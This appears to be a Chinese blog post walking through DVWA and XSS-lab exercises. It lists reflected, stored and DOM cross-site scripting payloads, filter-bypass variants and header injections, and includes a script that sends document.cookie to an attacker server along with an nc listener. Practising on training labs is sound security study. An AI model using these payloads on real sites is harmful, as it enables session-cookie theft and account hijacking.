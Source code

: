 ```yaml
---
layout: post
title: 跨站脚本
subtitle: XSS
date: 2023-08-05 20:03
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - DVWA
  - 靶场实战
---
```

## 1. XSS(Reflected)

```html
<!--直接填-->
<script>alert(document.cookie)</script>
<script>confirm(document.cookie)</script>
<!--补全闭合标签-->
"><script>alert(document.cookie)</script>
<!--闭合添加事件-->
" onclick="alert(document.cookie)
<!--htmlspecialchars 使用单引号闭合-->
' onclick='alert(document.cookie)
<!--使用a标签-->
javascript:alert(document.cookie)
"><a href="javascript:alert(document.cookie)"/>
<!-- 6 大写-->
"><a HREF="javascript:alert(document.cookie)"/>
<!-- 7 双写-->
"><SSCRIPTCRIPT>alert(document.cookie)</SSCRIPTCRIPT>
<!-- 8 Unicode编码 javascript:alert(document.cookie)-->
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101;&#41
<!-- 9 unicode编码 注释 http:\\ -->
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101;&#41;&#59/*http://*/
<!-- 10 补全 替换type -->
t_sort="onclick="alert(123)" type="
<!-- 11 改referer 需要bp拦截包改 -->
Referer: "onclick="alert(123)" type="
<!-- 12 bp改UA -->
User-Agent: "onclick="alert(123)" type="
<!-- 13 bp改Cookie -->
Cookie: user="onclick="alert(123)" type="
<!-- 15 文件包含-->
'level1.php?name=<img src=1 onerror=alert(123)>'
<!-- 16 %0a替换空格 不用"/"-->
><img%0asrc=1%0aonerror=alert(123)><!--
```

10、
![image.png](https://img.ghostliner.top/7UnT6A.png)

### 1.1. LOW

```html
#获取Cookie
<script>alert('document.cookie')</script>
#访问攻击者服务器
<iframe src='http://ip/time.jpg'></iframe>
#向攻击者服务器发送cookie
#nc -nvlp 80
<script>new Image().src="http://ip/a.php?output="+document.cookie;</script>
```

### 1.2. MEDIUM

利用大小写，组合过滤条件绕过

```html
<Script>
<scr<script>ipt>
<body onload=alert('')>
<img src="" onerror="alert(document.cookie)"/>
```

### 1.3. HIGH

```php
$name=preg_replace('/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i','',$_GET['name']);
```

无法使用\<script>但可以使用其他标签

## 2. XSS(Stored)

### 2.1. LOW

后台源码：

trim(string,charlist)：移除string字符两侧的预定义字符，预定义字符包括\t 、 \n 、\x0B 、\r以及空格，可选参数charlist支持添加额外需要删除的字符

stripslashes(string)：去除掉string字符的反斜杠＼

mysqli_real_escape_string(string,connection)：函数会对字符串string中的特殊符号（\x00，\n，\r，\，‘，“，\x1a）进行转义。

$GLOBALS：引用全局作用域中可用的全部变量。

### 2.2. MEDIUM

```
htmlspecialchars()
//将标签转为普通字符
```

name为注入点

### 2.3. HIGH

name为注入点

## 3. XSS(DOM)

### 3.1. LOW

url注入

```
http://192.168.30.131/dvwa/vulnerabilities/xss_d/?default=<script>alert(document.cookie)</script>
```

### 3.2. MEDIUM

```
></option></select><img src=1 onerror="alert(document.cookie)"/>
```

### 3.3. HIGH

服务器对default设置了白名单，攻击代码用#注释不上传到服务器

```
http://192.168.30.131/dvwa/vulnerabilities/xss_d/?default=English #<script>alert(document.cookie)</script>
```
